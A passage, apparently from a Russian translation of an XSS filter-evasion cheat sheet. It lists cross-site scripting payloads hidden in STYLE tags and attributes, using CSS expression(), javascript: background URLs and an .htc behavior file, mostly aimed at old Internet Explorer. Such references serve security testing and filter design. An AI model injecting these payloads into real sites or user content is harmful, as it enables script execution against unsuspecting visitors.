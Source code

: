 ### Теги STYLE, которые разбивают JavaScript на части для XSS

Этот XSS время от времени отправляет IE в бесконечный цикл предупреждений:

```html
<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>
```

### Атрибут STYLE, который разбивает выражение на части

```html
<IMG STYLE="xss:expr/*XSS*/ession(alert('XSS'))">
```

(Автор Roman Ivanov)

### IMG STYLE с выражениями

На самом деле это гибрид двух последних XSS-векторов, но он действительно показывает, насколько сложным может быть разбор тегов стиля по отдельности. Это может привести к тому, что IE зациклится:

```html
exp/*<A STYLE='no\xss:noxss("*//*");
xss:ex/*XSS*//*/*/pression(alert("XSS"))'>
```

### Тэг STYLE с использованием фонового изображения

```html
<STYLE>.XSS{background-image:url("javascript:alert('XSS')");}</STYLE><A CLASS=XSS></A>
```

### Тэг STYLE с использованием фона

```html
<STYLE type="text/css">BODY{background:url("javascript:alert('XSS')")}</STYLE>
<STYLE type="text/css">BODY{background:url("<javascript:alert>('XSS')")}</STYLE>
```

### Анонимный HTML-код с атрибутом STYLE

Механизму рендеринга IE на самом деле все равно, существует созданный вами HTML-тег или нет, если он начинается с открытой угловой скобки и буквы:

```html
<XSS STYLE="xss:expression(alert('XSS'))">
```

### Локальный файл htc

Этот файл немного отличается от двух предыдущих XSS-векторов, поскольку в нем используется файл .htc, который должен находиться на том же сервере, что и XSS-вектор. Этот пример файла работает, используя JavaScript и запуская его как часть атрибута style:

```html
<XSS STYLE="behavior: url(xss.htc);">
```
